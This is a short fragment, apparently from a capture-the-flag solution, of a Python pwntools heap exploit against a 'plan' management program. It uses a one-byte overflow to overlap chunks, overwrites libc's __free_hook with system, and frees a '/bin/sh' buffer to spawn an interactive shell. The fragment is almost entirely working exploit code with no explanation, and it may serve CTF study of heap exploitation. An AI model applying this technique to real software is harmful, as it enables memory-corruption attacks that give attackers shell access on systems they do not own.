 ```py

    # Hook system to free
    create_plan(0x48, b"A"*0x48)
    create_plan(0x48, b"B"*0x48)
    create_plan(0x48, b"C"*0x48)
    edit_plan(0, b"A"*0x48 + p8(0x80))
    delete_plan(1)
    delete_plan(2)
    create_plan(0x70, b"C"*0x50 + p64(libc.sym.__free_hook))
    create_plan(0x40, b"/bin/sh\x00")
    create_plan(0x40, p64(libc.sym.system))
    delete_plan(2)

    #Win
    r.interactive()

if __name__ == "__main__":
    main()
```